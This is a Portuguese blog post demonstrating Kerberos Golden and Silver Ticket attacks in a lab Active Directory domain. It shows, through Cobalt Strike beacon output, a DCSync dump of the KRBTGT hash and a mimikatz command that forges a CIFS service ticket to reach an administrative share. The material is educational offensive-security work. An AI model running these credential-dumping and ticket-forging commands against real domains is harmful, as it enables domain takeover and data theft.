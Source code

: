 ```yaml
---
layout: post
title: Golden & Silver
---
```


Como mostrado no [post anterior](https://tuxtrack.github.io/kerberos101/), em meio ao processo de autenticação de um usuário/computador em um ambiente Microsoft Active Directory utilizando o protocolo Kerberos, uma troca de informações ocorre para validar a conta em questão. 

![](https://raw.githubusercontent.com/tuxtrack/tuxtrack.github.io/master/images/ges/kerb.png)

Ao ocorrer a solicitação de acesso a algum recurso existente no domínio utilizando o protocolo Kerberos, automaticamente será solicitado ao KDC um ticket do tipo TGT (Ticket-Granting Ticket). Caso a conta seja válida, o KDC retornará o ticket assinado/criptografado pela conta KRBTGT. 

>KRBTGT is also the security principal name used by the KDC for a Windows Server domain, as specified by RFC 4120. The KRBTGT account is the entity for the KRBTGT security principal, and it is created automatically when a new domain is created. [MS Docs](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn745899(v=ws.11))

![](https://raw.githubusercontent.com/tuxtrack/tuxtrack.github.io/master/images/ges/krbtgt.png)

### Golden Tickets

O problema de segurança ocorre quando o hash da conta KRBTGT é comprometido. Nesse momento, o atacante pode forjar TGT's, assinando-os com o hash obtido e se utilizar de qualquer conta presente no domínio (forjada) empoderando-se dos privilégios concedidos as mesmas ou adicionando novos privilégios alterando a estrutura do ticket.

![](https://raw.githubusercontent.com/tuxtrack/tuxtrack.github.io/master/images/ges/gt.png)

* Forging Golden Tickets

O ataque em questão foi apresentado por Benjamin Delpy, mais conhecido como [@gentilkiwi](https://twitter.com/gentilkiwi). Ele é o criador das famosas ferramentas [Mimikatz](https://github.com/gentilkiwi/mimikatz) e [Kekeo](https://github.com/gentilkiwi/kekeo), amplamente utilizadas por todos no mundo offsec.

Para efeitos de demonstração, foi utilizado a ferramenta Mimikatz para a execução do ataque. Existem outras ferramentas que podem auxiliar na tarefa, como o projeto [Rubeos](https://github.com/GhostPack/Rubeus), presente na toolkit [GhostPack](https://github.com/GhostPack/), projeto da SpecterOps criado para portar a maioria das ferramentas que antes eram escritas em Powershell para C#. Após as [melhorias de seguranças aplicadas a partir da versão 5 do Powershell](https://devblogs.microsoft.com/powershell/powershell-the-blue-team/), muitos ataques começaram a ser bloqueados, causando desconforto para os analistas. Mas isso é história para outro blog post. 

Para que o Mimikatz possa executar o ataque, são necessários alguns bits de informação:

User: Usuário no qual o atacante deseja obter iguais privilégios.

Domain Name: FQDN [(Fully Qualified Domain Name)](https://en.wikipedia.org/wiki/Fully_qualified_domain_name)

Domain SID: Domain SID 

KRBTGT NTLM Hash: Hash extraído do usuário KRBTGT.

Como mencionado, o atacante poderá alterar a estrutura do ticket, adicionando outras informações utilizando os parâmetros "/groups:" e "id", para fornecer informções sobre grupos (Grupos com poderes administrativos: 512,513,518,519,520 ) e RID's.

O processo de extração do hash da conta KRBTGT pode ser realizado de diversas formas, para mais informações, recomendo a leitura do blog post [Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/).

Processo de obtenção do hash através de [DCSYNC Attack](https://adsecurity.org/?p=1729).

```powershell
beacon> dcsync hnr.local krbtgt
[*] Tasked beacon to run mimikatz's @lsadump::dcsync /domain:hnr.local /user:krbtgt command
[+] host called home, sent: 746570 bytes
[+] received output:
[DC] 'hnr.local' will be the domain
[DC] 'GOKU.hnr.local' will be the DC server
[DC] 'krbtgt' will be the user account
Object RDN           : krbtgt
** SAM ACCOUNT **
SAM Username         : KRBTGT  
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 11/02/2020 00:41:33
Object Security ID   : S-1-5-21-45967290-1955130809-1078885739-502
Object Relative ID   : 502
Credentials:
  Hash NTLM: 86db69b9000654a8a4d4b6abe6ed1553
```
Com as informações necessárias em mãos, a execução do ataque pode ser concluída.

![](https://raw.githubusercontent.com/tuxtrack/tuxtrack.github.io/master/images/ges/mimi.png)

Com a execução do mimikatz, o ticket para o usuário ganderson foi forjado e submetido na sessão atual utilizando um ataque chamado Pass-The-Ticket, parametro "/ptt" (Devo criar um outro blog post mostrando como funciona o Pass-the-ticket e Over Pass the Hash). 

***

### Silver Tickets


Silver Tickets seguem a mesma ideia do Golden Ticket, porém, forjado um TGS (Service Ticket) em vez do TGT. Os tickets são criados utilizando a conta do computador ou conta de serviço do recurso que o atacante deseja acessar. As informações sobre o usuário, grupo e etc podem ser forjadas sem a necessidade de nenhuma troca de informação entre User Workstation e KDC.

![](https://raw.githubusercontent.com/tuxtrack/tuxtrack.github.io/master/images/ges/st.png)

Por padrão, as senhas das contas dos computadores são alteradas a cada 30 dias. Logo, o hash da conta pode ser alterado em meio ao projeto, causando perda de acesso. Para contornar o "problema", é possível solicitar a informação sobre a máquina alvo e verificar o tempo limite até a senha ser alterada novamente. 

``` powershell
beacon> powerpick Get-NetComputer -Name SQL | Select name, samaccounttype, pwdlastset
[*] Tasked beacon to run: Get-NetComputer -Name SQL | Select name, samaccounttype, pwdlastset (unmanaged)
[+] host called home, sent: 133715 bytes
[+] received output:

name  samaccounttype pwdlastset         
----  -------------- ----------         
SQL  MACHINE_ACCOUNT 12/02/2020 14:53:05
```

Caso um usuário tente acessar um recurso no qual o mesmo não possui autorização, a negação do acesso é automaticamente efetuada. Para fins de demonstração, foi solicitado o acesso ao serviço de compartilhamento por um usuário que propositalmente não possui privilégios para tal. 

```powershell
beacon> shell dir \\SQL.hnr.local\c$
[*] Tasked beacon to run: dir \\SQL.hnr.local\c$
[+] host called home, sent: 53 bytes
[+] received output:
Access is denied.
```

Para forjar um Silver Ticket, algumas informações adicionais são necessárias: 

Taget: FQDN [(Fully Qualified Domain Name)](https://en.wikipedia.org/wiki/Fully_qualified_domain_name)

Service: Serviço no qual deseja obter acesso (PS-Remoting, WMI, Scheduled Tasks, CIFS, LDAP, WINRM...)

rc4: NTLM Hash do computador/serviço, usado para assinar os tickets de serviço.

```powershell
beacon> mimikatz kerberos::golden /domain:hnr.local /user:admin /sid:S-1-5-21-45967290-1955130809-1078885739 /target:SQL.hnr.local /service:CIFS /rc4:95e93eb10b58109a6b0227d8c821dbdd /ptt
[*] Tasked beacon to run mimikatz's kerberos::golden /domain:hnr.local /user:admin /sid:S-1-5-21-45967290-1955130809-1078885739 /target:SQL.hnr.local /service:CIFS /rc4:95e93eb10b58109a6b0227d8c821dbdd /ptt command
[+] host called home, sent: 998474 bytes
[+] received output:
User      : admin
Domain    : hnr.local (HNR)
SID       : S-1-5-21-45967290-1955130809-1078885739
User Id   : 500
Groups Id : *513 512 520 518 519 
ServiceKey: 95e93eb10b58109a6b0227d8c821dbdd - rc4_hmac_nt      
Service   : CIFS
Target    : SQL.hnr.local
Lifetime  : 01/03/2020 18:39:26 ; 27/02/2030 18:39:26 ; 27/02/2030 18:39:26
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'admin @ hnr.local' successfully submitted for current session
```

Utilizando a ferramenta klist, podemos confirmar que os tickets injetados permanecem armazenados em cache.

``` powershell
beacon> shell klist
[*] Tasked beacon to run: klist
[+] host called home, sent: 36 bytes
[+] received output:

Current LogonId is 0:0x51f1d

#0>	Client: jbolsonaro @ HNR.LOCAL
	Server: krbtgt/HNR.LOCAL @ HNR.LOCAL
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize 
	Start Time: 3/2/2020 13:56:50 (local)
	End Time:   3/2/2020 23:41:06 (local)
	Renew Time: 3/8/2020 18:11:06 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0x2 -> DELEGATION 
	Kdc Called: GOKU.hnr.local

#2>	Client: jbolsonaro @ HNR.LOCAL
	Server: host/sql.hnr.local @ HNR.LOCAL
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize 
	Start Time: 3/1/2020 18:11:06 (local)
	End Time:   3/2/2020 4:11:06 (local)
	Renew Time: 3/8/2020 18:11:06 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0 
	Kdc Called: GOKU.hnr.local
```

Como pode-se notar, após submeter o Silver Ticket na sessão para o serviço [CIFS](https://pt.wikipedia.org/wiki/Server_Message_Block), o acesso ao compartilhamento foi concedido, demonstrando a perfeita execução do ataque.

``` powershell
beacon> shell dir \\SQL.hnr.local\c$
[*] Tasked beacon to run: dir \\SQL.hnr.local\c$
[+] host called home, sent: 53 bytes
[+] received output:
 Volume in drive \\SQL.hnr.local\c$ has no label.
 Volume Serial Number is 04AB-790B

 Directory of \\SQL.hnr.local\c$

01/03/2020  11:09    <DIR>          HNRDOCS
15/09/2018  04:19    <DIR>          PerfLogs
12/02/2020  17:07    <DIR>          Program Files
12/02/2020  16:35    <DIR>          Program Files (x86)
12/02/2020  15:34    <DIR>          SQLServer2017Media
12/02/2020  15:53    <DIR>          Users
01/03/2020  18:11    <DIR>          Windows
               0 File(s)              0 bytes
               7 Dir(s)  47.061.692.416 bytes free
```
 
O intuito dos posts é se fazer entender como funcionam os ataques. As ferramentas apresentadas são apenas meios para que possamos alcançar um objetivo. Espero que tenha conseguido passar com clareza todas as informações necessárias para o entendimento e sanar quaisquer dúvidas. Caso eu tenha pecado em algo, ou alguma informação não teve embasamento necessário para seu entendimento, por favor entre em contato comigo, ficarei extramente feliz em ajudar.

Até o próximo.!!!

##### Referências

Abusing Microsoft Kerberos: Sorry You Guys Don't Get It [https://www.youtube.com/watch?v=lJQn06QLwEw](https://www.youtube.com/watch?v=lJQn06QLwEw) 